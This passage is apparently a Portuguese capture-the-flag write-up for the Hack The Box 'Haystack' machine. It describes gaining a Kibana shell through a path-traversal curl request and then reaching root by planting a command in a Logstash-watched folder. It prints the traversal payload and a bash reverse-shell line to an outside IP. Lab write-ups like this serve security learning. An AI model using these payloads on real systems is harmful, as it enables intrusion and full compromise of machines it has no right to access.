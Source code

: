 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_shelljs.png)

Procuramos como executar ele agora

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_exec.png)

##### Explorando o Kibana

Agora vamos executar e ver se ganhamos o shell de Kibana

> curl 'localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/shell.js'

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_shell.png)

Dentro da pasta logstash verificamos arquivos que somente o grupo Kibana pode executar, e nós com o usuário Kibana agora podemos executar

Verificamos três arquivos de configuração, temos que ver como podemos explorar eles agora

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_priv.png)

Verificando o que eles fazem temos:
Primeira coisa é o input.
Um arquivo, especificamos qual vai ser executado, como root, depois vamos para o filter.conf

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_priv1.png)

Aqui ele vai verificar se o type está como execute, se der match no comando no arquivo (match), vai executar e vai pra output

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_priv2.png)

Aqui está dizendo somente que ele executa, e como o processo está como root, ele vai ser executado como root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_priv3.png)

##### Escalando

Então vamos criar um arquivo na pasta especificada /opt/kibana/logstash_* e colocar o comando que quero que execute (tem que dar match com a regex que ta no filter)

> Ejecutar comando : bash -i >& /dev/tcp/10.10.16.119/443 0>&1

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_priv4.png)

Esperamos um minuto e ganhamos a shell de Root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_priv5.png)

#### Pegamos a flag de root e user

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_user.png)
